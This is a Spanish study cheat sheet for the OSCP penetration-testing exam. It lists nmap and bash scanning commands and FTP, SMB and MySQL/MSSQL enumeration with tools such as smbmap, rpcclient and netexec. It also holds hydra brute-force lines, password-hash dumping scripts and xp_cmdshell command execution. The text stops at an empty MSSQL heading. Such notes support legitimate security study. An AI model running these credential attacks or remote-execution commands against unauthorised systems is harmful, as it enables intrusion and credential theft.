

# OSCP CheetSheet
Apuntes para la certicación OSCP.

# Tabla de Contenido

<!-- vscode-markdown-toc -->
* 1. [Comandos](#comandos)
    * 1.1. [Windows](#windows)
* 2. [Information Gathering](#information-gathering)
    * 2.1. [Fping](#fping)
        * 2.1.1. [Identificación de hosts](#identificación-de-hosts)
    * 2.2. [Nmap](#nmap)
        * 2.2.1. [Descubrimiento de host - Ping Scan](#descubrimiento-de-host---ping-scan)
        * 2.2.2. [Escaneo de puertos](#escaneo-de-puertos)
        * 2.2.3. [Versión y Servicio](#versión-y-servicio)
        * 2.2.4. [UDP (top 100)](#udp-(top-100))
        * 2.2.5. [UDP (top 20)](#udp-(top-20))
        * 2.2.6. [Obtener ayuda sobre scripts](#obtener-ayuda-sobre-scripts)
        * 2.2.7. [Listar scripts de Nmap](#listar-scripts-de-nmap)
        * 2.2.8. [Escaneo de puertos](#escaneo-de-puertos-1)
        * 2.2.9. [Escaneo de puertos a través de proxychains usando hilos](#escaneo-de-puertos-a-través-de-proxychains-usando-hilos)
* 3. [Servicios Comunes](#servicios-comunes)
    * 3.1. [FTP (21)](#ftp-(21))
        * 3.1.1. [Nmap](#nmap-1)
        * 3.1.2. [Conexión al servidor FTP](#conexión-al-servidor-ftp)
        * 3.1.3. [Interactuar con el cliente FTP](#interactuar-con-el-cliente-ftp)
        * 3.1.4. [Netexec](#netexec)
        * 3.1.5. [Fuerza bruta de credenciales](#fuerza-bruta-de-credenciales)
        * 3.1.6. [Archivos de configuración](#archivos-de-configuración)
        * 3.1.7. [Descargar archivos](#descargar-archivos)
    * 3.2. [SMB (445)](#smb-(445))
        * 3.2.1. [Nmap](#nmap-2)
        * 3.2.2. [smbclient](#smbclient)
        * 3.2.3. [smbmap](#smbmap)
        * 3.2.4. [enum4linux](#enum4linux)
        * 3.2.5. [Netexec](#netexec-1)
        * 3.2.6. [Rpcclient](#rpcclient)
        * 3.2.7. [RID Cycling Attack](#rid-cycling-attack)
        * 3.2.8. [SMB desde Windows](#smb-desde-windows)
        * 3.2.9. [Interactuar con el cliente SMB](#interactuar-con-el-cliente-smb)
        * 3.2.10. [Montar una recurso compartido](#montar-una-recurso-compartido)
        * 3.2.11. [Fuerza bruta de credenciales](#fuerza-bruta-de-credenciales-1)
    * 3.3. [MYSQL (3306)](#mysql-(3306))
        * 3.3.1. [Nmap](#nmap-3)
        * 3.3.2. [Fuerza bruta](#fuerza-bruta)
        * 3.3.3. [Comandos básicos](#comandos-básicos)
    * 3.4. [MSSQL (1433)](#mssql-(1433))
        * 3.4.1. [Nmap](#nmap-4)
        * 3.4.2. [Netexec](#netexec-2)
        * 3.4.3. [Conexión](#conexión)
        * 3.4.4. [Comandos básicos](#comandos-básicos-1)
        * 3.4.5. [Mostrar el contenido de una base de datos](#mostrar-el-contenido-de-una-base-de-datos)
        * 3.4.6. [Ejecución de código](#ejecución-de-código)
    * 3.5. [SNMP (161 - UDP)](#snmp-(161---udp))
    * 3.6. [RDP (3389)](#rdp-(3389))
        * 3.6.1. [xfreerdp](#xfreerdp)
    * 3.7. [Netexec](#netexec-3)
* 4. [Web](#web)
    * 4.1. [Enumeración](#enumeración)
        * 4.1.1. [Fuff](#fuff)
        * 4.1.2. [Gobuster](#gobuster)
        * 4.1.3. [Wfuzz](#wfuzz)
    * 4.2. [Enumeración de CMS](#enumeración-de-cms)
        * 4.2.1. [Wordpress](#wordpress)
        * 4.2.2. [Joomla](#joomla)
        * 4.2.3. [Drupal](#drupal)
        * 4.2.4. [Magento](#magento)
* 5. [Pivoting](#pivoting)
    * 5.1. [Chisel](#chisel)
        * 5.1.1. [Servidor (Atacante)](#servidor-(atacante))
        * 5.1.2. [Cliente (Víctima)](#cliente-(víctima))
        * 5.1.3. [Socat](#socat)
    * 5.2. [Ligolo-ng](#ligolo-ng)
        * 5.2.1. [Descargar el Proxy y el Agente](#descargar-el-proxy-y-el-agente)
        * 5.2.2. [Preparar las interfaces para el tunel](#preparar-las-interfaces-para-el-tunel)
        * 5.2.3. [Configurar proxy en la máquina del atacante](#configurar-proxy-en-la-máquina-del-atacante)
        * 5.2.4. [Configurar el agente en la máquina víctima](#configurar-el-agente-en-la-máquina-víctima)
        * 5.2.5. [Configurar la sesión](#configurar-la-sesión)
* 6. [Passwords Attacks](#passwords-attacks)
* 7. [Transferencia de Archivos](#transferencia-de-archivos)
    * 7.1. [Windows](#windows-1)
    * 7.2. [Linux](#linux)
* 8. [Movimiento Lateral](#movimiento-lateral)
    * 8.1. [Windows](#windows-2)
    * 8.2. [Linux](#linux-1)
* 9. [Escalación de Privilegios](#escalación-de-privilegios)
    * 9.1. [Windows](#windows-3)
        * 9.1.1. [Enumeración](#enumeración-1)
        * 9.1.2. [Escalación de Privilegios](#escalación-de-privilegios-1)
    * 9.2. [Linux](#linux-2)
* 10. [Active Directory](#active-directory)
    * 10.1. [Enumeración](#enumeración-2)
    * 10.2. [Kerberos](#kerberos)
    * 10.3. [Explotación](#explotación)
    * 10.4. [Movimiento Lateral](#movimiento-lateral-1)
    * 10.5. [Post Explotación](#post-explotación)
* 11. [Herramientas y Recursos](#herramientas-y-recursos)
    * 11.1. [Pivoting](#pivoting-1)
    * 11.2. [Information Gathering](#information-gathering-1)
    * 11.3. [Web](#web-1)
    * 11.4. [Bases de datos](#bases-de-datos)
    * 11.5. [Passwords Attacks](#passwords-attacks-1)
    * 11.6. [Wordlists](#wordlists)
    * 11.7. [Escalación de Privilegios](#escalación-de-privilegios-2)
    * 11.8. [Recursos y Blogs](#recursos-y-blogs)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='comandos'></a>Comandos

###  1.1. <a name='windows'></a>Windows

##### Habilitar WinRM

```powershell
winrm quickconfig
```

##### Habilitar RDP

```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

##  2. <a name='information-gathering'></a>Information Gathering

###  2.1. <a name='fping'></a>Fping

####  2.1.1. <a name='identificación-de-hosts'></a>Identificación de hosts

```bash
fping -asgq 172.16.0.1/24
```

Parámetros utilizados:

- `a` para mostrar los objetivos que están activos

- `s` imprimir estadísticas al final de la exploración

- `g` para generar una lista de destinos a partir de la red CIDR

- `q` para no mostrar resultados por objetivo

Con el escaneo realizado anteriormente con fping podemos armar una lista de hosts activos.

###  2.2. <a name='nmap'></a>Nmap

####  2.2.1. <a name='descubrimiento-de-host---ping-scan'></a>Descubrimiento de host - Ping Scan

```bash
sudo nmap -sn <TARGET-RANGE>

# Ejemplo
sudo nmap -sn 192.168.56.1/24
```

- `-sn` Esta opción le dice a Nmap que no haga un escaneo de puertos después del descubrimiento de hosts y que sólo imprima los hosts disponibles que respondieron a la traza icmp.

####  2.2.2. <a name='escaneo-de-puertos'></a>Escaneo de puertos

```bash
sudo nmap -p- --open -Pn -n <RHOST> -oG openPorts -vvv
```

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--open`: Muestra solo los puertos que están abiertos, excluyendo los cerrados.
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva la detección de hosts (no realiza un ping previo). Esto es útil si el host tiene el ICMP (ping) bloqueado.
- `-n`: Desactiva la resolución de nombres DNS, lo que acelera el escaneo porque no intenta resolver las direcciones IP a nombres de dominio.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.

####  2.2.3. <a name='versión-y-servicio'></a>Versión y Servicio

```bash
sudo nmap -sCV -p<PORTS> <RHOST> -oN servicesScan -vvv 
```

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básicos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.

####  2.2.4. <a name='udp-(top-100)'></a>UDP (top 100)

```bash
sudo nmap -n -v -sU -F -T4 --reason --open -T4 -oA nmap/udp-fast <RHOST>
```

####  2.2.5. <a name='udp-(top-20)'></a>UDP (top 20)

```bash
sudo nmap -n -v -sU -T4 --top-ports=20 --reason --open -oA nmap/udp-top20 <RHOST>
```

####  2.2.6. <a name='obtener-ayuda-sobre-scripts'></a>Obtener ayuda sobre scripts

```bash
nmap --script-help="http-*"
```

####  2.2.7. <a name='listar-scripts-de-nmap'></a>Listar scripts de Nmap

```bash
locate -r '\.nse$' | xargs grep categories | grep categories | grep 'default\|version\|safe' | grep smb
```
####  2.2.8. <a name='escaneo-de-puertos-1'></a>Escaneo de puertos

##### Descubrimiento de hosts Windows

```powershell
arp -d
for /L %a (1,1,254) do @start /b ping 40.40.40.%a -w 100 -n 2 >nul
arp -a
```
##### Descubrimiento de hosts Linux

```bash
#!/bin/bash

octetos=$(echo "$1" | grep -oE '([0-9]{1,3}\.){2}[0-9]{1,3}')

for i in $(seq 1 254); do
    timeout 1 bash -c "ping -c 1 $octetos.$i" &>/dev/null && echo "[+] Host $octetos.$i - ACTIVE" &
done; wait
```

```bash
./hostDiscovery.sh 192.168.56
```
##### Descubrimiento de hosts Linux (alternativa)

Si la máquina no cuenta con la utilidad `ping`, podemos utilizar el siguiente script como alternativa:

```bash
#!/bin/bash

octetos=$(echo "$1" | grep -oE '([0-9]{1,3}\.){2}[0-9]{1,3}')
 
for i in $(seq 1 254); do
    timeout 1 bash -c "echo >/dev/tcp/$octetos.$i/80" &>/dev/null && echo "[+] Host $octetos.$i - ACTIVE" &
done
wait
```

```bash
./hostDiscovery.sh 192.168.56
```
##### Descubrimiento de puertos abiertos Linux

```bash
#!/bin/bash

for port in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/$1/$port" 2>/dev/null && echo "[+] Port $port - OPEN" &
done; wait
```

```bash
./portDiscovery.sh <RHOST>
```
####  2.2.9. <a name='escaneo-de-puertos-a-través-de-proxychains-usando-hilos'></a>Escaneo de puertos a través de proxychains usando hilos

```bash
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -p{} -open -T5 -Pn -n <RHOST> -vvv -oN servicesScan 2>&1 | grep "tcp open"
```

##  3. <a name='servicios-comunes'></a>Servicios Comunes

###  3.1. <a name='ftp-(21)'></a>FTP (21)

El Protocolo de Transferencia de Archivos (FTP, por sus siglas en inglés) es un protocolo de red utilizado para la transferencia de archivos entre sistemas que están conectados a una red TCP/IP, basado en una arquitectura *cliente-servidor*. Este protocolo permite la transmisión eficiente de archivos a través de la red, proporcionando servicios de autenticación y control de acceso.

Por defecto, el puerto asignado para la comunicación FTP es el puerto 21.
####  3.1.1. <a name='nmap-1'></a>Nmap

Cuando lanzamos una enumeración usando Nmap, se utilizan por defecto una serie de scripts que comprueban si se permite el acceso de forma anonima.

- `anonymous:anonymous`
- `anonymous`
- `ftp:ftp`

```bash
sudo nmap -sCV -p21 <RHOST> -vvv
```

Scripts de `nmap` utiles para este servicio:

- ftp-anon
- ftp-bounce
- ftp-syst
- ftp-brute
- tftp-version

```bash
sudo nmap -p21 --script=ftp-anon <RHOST> -vvv
```

####  3.1.2. <a name='conexión-al-servidor-ftp'></a>Conexión al servidor FTP

```bash
# -A: Esta opción es específica del cliente FTP y suele utilizarse para activar 
# el modo ASCII  de transferencia de archivos. En este modo, los archivos se 
# transfieren en formato de texto, lo que significa que se pueden realizar 
# conversiones de formato (por ejemplo, de CRLF a LF en sistemas Unix).
ftp -A <RHOST>

nc -nvc <RHOST> 21

telnet <RHOST> 21
```

####  3.1.3. <a name='interactuar-con-el-cliente-ftp'></a>Interactuar con el cliente FTP

```bash
ftp> anonymous # usuario
ftp> anonymous # contraseña
ftp> help # mostrar la ayuda
ftp> help CMD # mostrar la ayuda de un comando especifico
ftp> status # descripción general de la configuración del servidor
ftp> binary # establecer la transmisión en binario en lugar de ascii
ftp> ascii # establecer la transmisión a ascii en lugar de binario
ftp> ls -a # lista todos los archivos incluyendo los ocultos
ftp> cd DIR # cambia el directorio remoto
ftp> lcd DIR # cambia el directorio local
ftp> pwd # mostrar el directorio actual de trabajo
ftp> cdup  # mover al directorio anterior de trabajo
ftp> mkdir DIR # crea un directorio
ftp> get FILE [NEWNAME] # descarga un archivo con el nombre indicado NEWNAME
ftp> mget FILE1 FILE2 ... # descarga multiples archivos
ftp> put FILE [NEWNAME] # sube un fichero local a el servidor ftp con el nuevo nombre indicado NEWNANE
ftp> mput FILE1 FILE2 ... # sube multiples archivos
ftp> rename OLD NEW # renombra un archivo remoto
ftp> delete FILE # borra un fichero
ftp> mdelete FILE1 FILE2 ... # borra multiples archivos
ftp> mdelete *.txt # borra multiples archivos que cumplan con el patrón
ftp> exit # abandona la conexión ftp
```

####  3.1.4. <a name='netexec'></a>Netexec

```bash
nxc ftp <RHOST> -u <USER> -p <PASSWORD>
nxc ftp <RHOST> -u 'anonymous' -p ''
nxc ftp <RHOST> -u <USER> -p <PASSWORD> --port <PORT>
nxc ftp <RHOST> -u <USER> -p <PASSWORD> --ls
nxc ftp <RHOST> -u <USER> -p <PASSWORD> --ls <DIRECTORY>
nxc ftp <RHOST> -u <USER> -p <PASSWORD> --get <FILE>
nxc ftp <RHOST> -u <USER> -p <PASSWORD> --put <FILE>
```
####  3.1.5. <a name='fuerza-bruta-de-credenciales'></a>Fuerza bruta de credenciales

```bash
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt ftp://<RHOST>
```

####  3.1.6. <a name='archivos-de-configuración'></a>Archivos de configuración

- `/etc/ftpusers`
- `/etc/vsftpd.conf`
- `/etc/ftp.conf`
- `/etc/proftpd.conf`

####  3.1.7. <a name='descargar-archivos'></a>Descargar archivos

```bash
wget -m ftp://anonymous:anonymous@<RHOST>
```
###  3.2. <a name='smb-(445)'></a>SMB (445)

SMB (Server Message Block) es un protocolo diseñado para la compartición de archivos en red, facilitando la interconexión de archivos y periféricos como impresoras y puertos serie entre ordenadores dentro de una red local (LAN).

- SMB utiliza el puerto 445 (TCP). Sin embargo, originalmente, SMB se ejecutaba sobre NetBIOS utilizando puerto 139.
    
- SAMBA es una implementación de código abierto para Linux del protocolo SMB (Server Message Block), que facilita la interoperabilidad entre sistemas Linux y Windows. Permite a los equipos con Windows acceder a recursos compartidos en sistemas Linux, y a su vez, posibilita que dispositivos Linux accedan a recursos compartidos en redes Windows.

El protocolo SMB utiliza dos niveles de autenticación, a saber:

- **Autenticación de usuario**: los usuarios deben proporcionar un nombre de usuario y una contraseña para autenticarse con el servidor SMB para acceder a un recurso compartido.
    
- **Autenticación de recurso compartido**: los usuarios deben proporcionar una contraseña para acceder a un recurso compartido restringido.

####  3.2.1. <a name='nmap-2'></a>Nmap

Scripts de `nmap` utiles para este servicio:

- smb-ls
- smb-protocols
- smb-security-mode
- smb-enum-sessions
- smb-enum-shares
- smb-enum-users    
- smb-enum-groups    
- smb-enum-domains    
- smb-enum-services

Sintaxis:

```bash
sudo nmap -p445 --script <script> <RHOST>
```
####  3.2.2. <a name='smbclient'></a>smbclient

Es un cliente que nos permite acceder a recursos compartidos en servidores SMB.

```bash
# Lista recursos compartidos
smbclient -L <RHOST> -N

# Conexión utilizando una sesión nula
smbclient //<RHOST>/Public -N

# Realiza una conexión con el usuario elliot
smbclient //<RHOST>/Public -U elliot
```

####  3.2.3. <a name='smbmap'></a>smbmap

SMBMap permite a los usuarios enumerar las unidades compartidas samba en todo un dominio. Enumera las unidades compartidas, los permisos de las unidades, el contenido compartido, la funcionalidad de carga/descarga, la coincidencia de patrones de descarga automática de nombres de archivo e incluso la ejecución de comandos remotos.

```bash
# Utiliza un usuario de invitado (guest) con una contraseña en blanco para 
# autenticarse en el objetivo especificado por <RHOST>.
# -d indica el dominio actual.
smbmap -u guest -p "" -d . -H <RHOST>

# Autentica con un usuario y contraseña específicos (<USER> y <PASSWORD>) 
# en el objetivo (<RHOST>).
# -L lista los recursos compartidos disponibles en la máquina.
smbmap -u <USER> -p <PASSWORD> -H <RHOST> -L

# Autentica en el objetivo y muestra la lista de archivos y 
# carpetas en la unidad C$ de forma recursiva.
smbmap -u <USER> -p <PASSWORD> -H <RHOST> -r 'C$'

# Autentica y sube un archivo desde la ubicación local /root/file
# al recurso compartido C$ en el objetivo.
smbmap -H <RHOST> -u <USER> -p <PASSWORD> --upload '/root/file' 'tmp/file'

# Autentica y descarga el archivo 'file' desde el recurso compartido tmp 
# en el objetivo.
smbmap -H <RHOST> -u <USER> -p <PASSWORD> --download 'tmp/file'

# Autentica en el objetivo y ejecuta el comando ipconfig en el sistema remoto 
# usando SMB.
smbmap -u <USER> -p <PASSWORD> -H <RHOST> -x 'ipconfig'
```

####  3.2.4. <a name='enum4linux'></a>enum4linux

Enum4linux es una herramienta utilizada para extraer información de hosts de Windows y Samba. La herramienta está escrita en Perl y envuelta en herramientas de samba `smbclient`, `rpcclient`, `net` y `nslookup`.

```bash
# -o indica que se realizará una enumeración básica.
enum4linux -o <RHOST>

# -U indica que se realizará una enumeración de usuarios
enum4linux -U <RHOST>

# -G indica que se realizará una enumeración de grupos 
enum4linux -G <RHOST>

# -S indica que se realizará una enumeración de los recursos compartidos
enum4linux -S <RHOST>

# -i Comprueba si el servidor smb esta configurado para imprimir
enum4linux -i <RHOST>

# -r Intentará enumerar usuarios utilizando RID cycling en el sistema remoto.
# -u Especifica el nombre de usuario que se utilizará para la autenticación. 
# -p Especifica la contraseña asociada al usuario proporcionado con la opción -u.
enum4linux -r -u <user> -p <password> <RHOST>
```

####  3.2.5. <a name='netexec-1'></a>Netexec

Netexec, anteriormente conocido como **CrackMapExec (CME)**, es una herramienta de código. que permite automatizar tareas relacionadas con la enumeración y explotación de sistemas Windows y Linux, como la ejecución de comandos remotos, la obtención de credenciales y la evaluación de la seguridad en entornos de redes grandes. Netexec permite realizar tareas de forma masiva en múltiples sistemas a la vez, facilitando la identificación de vulnerabilidades y configuraciones incorrectas en una red.

```bash
# Enumerar hosts
nxc smb <RHOST>/24

# comprobar null sessions
nxc smb <RHOST> -u '' -p ''

# comprobar Guest login
nxc smb <RHOST> -u 'guest' -p ''

# enumerar hosts con firma SMB no requerida
nxc smb <RHOST>/24 --gen-relay-list relay_list.txt

# enumerar recursos compartidos usando una null session
nxc smb <RHOST> -u '' -p '' --shares

# enumerar recursos compartidos de lectura/escritura en múltiples IPs con/sin credenciales
nxc smb <RHOST> -u <USER> -p <PASSWORD> --shares --filter-shares READ WRITE

# enumera sesiones activas en la máquina objetivo
nxc smb <RHOST> -u <USER> -p <PASSWORD> --sessions

# enumera los discos duros
nxc smb <RHOST> -u <USER> -p <PASSWORD> --disks

# enumera las computadoras en el dominio
nxc smb <RHOST> -u <USER> -p <PASSWORD> --computers

# enumera los usuaros logueados
nxc smb <RHOST> -u <USER> -p <PASSWORD> --loggedon-users

# enumera usuarios del dominio
nxc smb <RHOST> -u <USER> -p <PASSWORD> --users

# enumera grupos del dominio
nxc smb <RHOST> -u <USER> -p <PASSWORD> --groups

# enumera los grupos locales de la máquina
nxc smb <RHOST> -u <USER> -p <PASSWORD> --local-group

# enumera usuarios por fuerza bruta de RID. Por defecto el valor de RID máximo es 4000.
nxc smb <RHOST> -u <USER> -p <PASSWORD> --rid-brute [MAX-RID]

# enumera la politica de contraseña
nxc smb <RHOST> -u <USER> -p <PASSWORD> --pass-pol

# emite la consulta WMI especificada
nxc smb <RHOST> -u <USER> -p <PASSWORD> --wmi

# WMI Namescape (default: root\cimv2)
nxc smb <RHOST> -u <USER> -p <PASSWORD> --wmi-namespace
```

####  3.2.6. <a name='rpcclient'></a>Rpcclient

Rpcclient es una utilidad que forma parte del conjunto de herramientas Samba. Se utiliza para interactuar con el protocolo Remote Procedure Call (RPC) de Microsoft, que se utiliza para la comunicación entre los sistemas basados en Windows y otros dispositivos. rpcclient se utiliza principalmente para fines de depuración y pruebas, y se puede utilizar para consultar y manipular sistemas remotos.

El protocolo SMB se utiliza principalmente para compartir archivos, impresoras y otros recursos en una red, pero también puede aprovechar RPC para ciertas funcionalidades y operaciones específicas.

Por ejemplo, cuando accedes a recursos compartidos en una red Windows, como carpetas compartidas o impresoras, estás utilizando el protocolo SMB. Sin embargo, para algunas operaciones administrativas y de gestión, como enumerar usuarios y grupos, modificar permisos de archivos o impresoras, o acceder a la configuración del sistema remoto, SMB puede utilizar RPC para realizar estas tareas.

Cuando utilizas herramientas como `rpcclient` para interactuar con un sistema remoto que ejecuta servicios SMB, estás esencialmente aprovechando el protocolo RPC subyacente que forma parte de la implementación de SMB en ese sistema. De esta manera, `rpcclient` puede actuar como una interfaz para realizar consultas y ejecutar comandos a través del protocolo RPC en el contexto de un servidor SMB.

```bash
# obtener información sobre el sistema remoto, como el nombre del servidor, 
# la versión del sistema operativo, el dominio de trabajo, la fecha y la hora del sistema, entre otros datos.
rpcclient -U "" -N <RHOST> -c "srvinfo"

# enumera los usuarios del dominio
rpcclient -U "" -N <RHOST> -c "enumdomusers"

# enumera los grupos del dominio
rpcclient -U "" -N <RHOST> -c "enumdomgroups"

# obtiene el SID del usuario en base a su nombre
rpcclient -U "" -N <RHOST> -c "lookupnames root"

# Se utiliza para enumerar los SID (Security Identifiers) asignados a los grupos 
# en un servidor remoto. Es útil para obtener información sobre los grupos de 
# seguridad disponibles en un sistema y sus respectivos SID.
rpcclient -U "" -N <RHOST> -c "lsaenumsid"
```

El parámetro `-c` en `rpcclient` se utiliza para especificar un comando o una secuencia de comandos que se ejecutarán en el servidor remoto una vez que se haya establecido la conexión. Esto permite realizar operaciones específicas de forma automática sin necesidad de interactuar manualmente con `rpcclient` después de establecer la conexión.

La sintaxis básica del parámetro `-c` es la siguiente:

```bash
rpcclient -U username //<RHOST> -c "command1; command2; command3"
```

####  3.2.7. <a name='rid-cycling-attack'></a>RID Cycling Attack

```bash
seq 1 5000 | xargs -P 50 -I{} rpcclient -U "" 30.30.30.4 -N -c "lookupsids S-1-22-1-{}" 2>&1
```

####  3.2.8. <a name='smb-desde-windows'></a>SMB desde Windows

```powershell
# listar recursos compartidos
net share

# borrar el recurso compartido
net use * \delete

# montar el recurso compartido
net use z: \\<RHOST>\c$ <password> /user:<username>

# /all nos permite ver los recursos compartidos administrativos (que terminan en '$').
# Puede usar IP o nombre de host para especificar el host.
net view \\<RHOST> /all
```

Recursos compartidos comunes en Windows:

- `C$` corresponde a C:/    
- `ADMIN$` se asigna a C:/Windows    
- `IPC$` se utiliza para RPC    
- `Print$` aloja controladores para impresoras compartidas    
- `SYSVOL` sólo en DCs    
- `NETLOGON` sólo en los DC

####  3.2.9. <a name='interactuar-con-el-cliente-smb'></a>Interactuar con el cliente SMB

```
smb: \> help # muestra la ayuda
smb: \> ls # listar archivos
smb: \> put file.txt # subir un archivo
smb: \> get file.txt # descargar un archivo
```

####  3.2.10. <a name='montar-una-recurso-compartido'></a>Montar una recurso compartido

```bash
mount -t cifs -o "username=user,password=password" //<RHOST>/share /mnt/share
```

####  3.2.11. <a name='fuerza-bruta-de-credenciales-1'></a>Fuerza bruta de credenciales

```bash
nmap --script smb-brute -p 445 <RHOST>
hydra -l admin -P /usr/share/wordlist/rockyou.txt <RHOST> smb
```

###  3.3. <a name='mysql-(3306)'></a>MYSQL (3306)

MySQL es un sistema de gestión de bases de datos relacional de código abierto. Es ampliamente utilizado para almacenar, gestionar y recuperar datos en diversas aplicaciones, desde sitios web hasta sistemas empresariales. MySQL es conocido por su alta performance, escalabilidad, y confiabilidad. Ofrece soporte para múltiples usuarios y transacciones simultáneas, y utiliza el lenguaje SQL (Structured Query Language) para la gestión de los datos. MySQL es compatible con numerosas plataformas y se integra fácilmente con lenguajes de programación como PHP, Java y Python.

####  3.3.1. <a name='nmap-3'></a>Nmap

Scripts de `nmap` utiles para este servicio:

- mysql-empty-password    
- mysql-info    
- mysql-databases    
- mysql-users    
- mysql-variables    
- mysql-dump-hashes    
- mysql-audit    

```bash
# Comprobar si el password de `root` es vacío.
sudo nmap --script=mysql-empty-password -p 3306 <RHOST>

# Mostrar información del servidor de MySQL
sudo nmap --script=mysql-info -p 3306 <RHOST>

# Listar las base de datos
sudo nmap --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p 3306 <RHOST>

# Lista los usuarios de la base de datos
sudo nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 <RHOST>

sudo nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p 3306 <RHOST>

# Dump hashes
sudo nmap --script=mysql-dump-hashes --script-args="username='root',password=''" -p 3306 <RHOST>

sudo nmap -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" <RHOST> -vvv

# Ejecutar una consulta
sudo nmap -p 3306 --script=mysql-query --script-args="query='select * from books.authors;',username='root',password=''" <RHOST> -vvv
```

####  3.3.2. <a name='fuerza-bruta'></a>Fuerza bruta

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://<RHOST> mysql
```

####  3.3.3. <a name='comandos-básicos'></a>Comandos básicos

```mysql
SHOW DATABASES; # listar las bases de datos
USE <DATABASE>; # seleccionar una base de datos
SHOW TABLES; # listar las tablas de una base de datos
DESC <TABLE>; # mostar los campos de una tabla
SHOW CREATE TABLE; # mostrar la estructura de una tabla
SELECT <column_name>,<column_name>,<column_name...> FROM <TABLE>; # listar el contenido de una tabla
SHOW EVENTS; # mostrar los eventos programados
```

###  3.4. <a name='mssql-(1433)'></a>MSSQL (1433)

MSSQL, o Microsoft SQL Server, es un sistema de gestión de bases de datos relacional desarrollado por Microsoft. Es utilizado para almacenar y recuperar datos según las necesidades de diferentes aplicaciones, desde pequeñas a grandes empresas. MSSQL ofrece características avanzadas como soporte para transacciones, integridad referencial, seguridad robusta y herramientas de administración y desarrollo. Es conocido por su integración estrecha con otros productos de Microsoft, como .NET Framework y Azure, y utiliza T-SQL (Transact-SQL) como su lenguaje de consulta.

####  3.4.1. <a name='nmap-4'></a>Nmap

Scripts de `nmap` utiles para este servicio:

- ms-sql-info    
- ms-sql-ntlm-info    
- ms-sql-brute    
- ms-sql-empty-password    
- ms-sql-query    
- ms-sql-dump-hashes    
- ms-sql-xp-cmdshell

```bash
sudo nmap --script ms-sql-info -p 1433 <RHOST>

# Comprobar autenticación NTLM
sudo nmap --script ms-sql-ntlm-info --script-args mssql.instance-port 1433 <RHOST>

# Enumerar usuarios y contraseña validos para MSSQL
sudo nmap -p 1433 --script ms-sql-brute -script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt <RHOST>

# Comprobar si el usuario "sa" tiene configurada la contraseña como vacía
sudo nmap -p 1433 --script ms-sql-empty-password <RHOST>

# Extraer todos los usuarios con sesión con una consulta sql
sudo nmap -p 1433 --script ms-sql-query --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-query="SELECT * FROM master..syslogins" <RHOST> -oN output.txt

# Ejecutar un comando en la máquina victima usando xp_cmdshell
sudo nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-xp-cmdshell.cmd="type C:\flag.txt" <RHOST>
```

####  3.4.2. <a name='netexec-2'></a>Netexec

```bash
# Realiza una consulta SQL
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -q <SQL_QUERY>

# Ejecuta un comando en el sistema Windows si la opción `xp_cmdshell` esta habilitada para el usuario
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -x <COMMAND>

# Enumera los privilegios para escalar de un usuario estandar a sysadmin
